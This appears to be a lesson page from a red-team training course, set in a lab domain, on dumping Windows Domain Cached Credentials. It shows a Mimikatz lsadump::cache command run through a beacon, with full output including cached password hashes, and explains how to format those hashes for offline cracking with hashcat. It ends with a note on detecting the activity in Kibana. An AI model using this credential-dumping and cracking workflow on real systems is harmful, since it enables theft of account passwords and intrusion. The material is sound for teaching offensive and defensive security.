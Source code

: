 Domain Cached Credentials (DCC) was designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain (think of a roaming laptop for example).  The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

The `lsadump::cache` Mimikatz module can extract these from `HKLM\SECURITY`.

  This command requires elevated privileges.
  
```
beacon> mimikatz !lsadump::cache

Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a

Local name : WKSTN-2 ( S-1-5-21-2281971671-4135076198-2136761646 )
Domain name : DEV ( S-1-5-21-569305411-121244042-2357301523 )
Domain FQDN : dev.cyberbotic.io

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9f88abd7-1cb9-d741-372b-c883b3cbf843}
  [00] {9f88abd7-1cb9-d741-372b-c883b3cbf843} c38164900449d2c6d81b557198ab0cbda2c0ce1c9f57c717cb221032ba1adffb

* Iteration is set to default (10240)

[NL$1 - 9/1/2022 8:10:06 AM]
RID       : 00000450 (1104)
User      : DEV\bfarmer
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

[NL$2 - 9/1/2022 10:29:19 AM]
RID       : 00000451 (1105)
User      : DEV\jking
MsCacheV2 : 0d50dee9ed3f29d00282168297090d2a
```
  

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.

  DCC is orders of magnitude slower to crack than NTLM.

  **OPSEC**  
  
This module will open a handle to the SECURITY registry hive.  Use the "Suspicious SECURITY Hive Handle" saved search in Kibana to see them.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/0c2/607/947/security-read.png)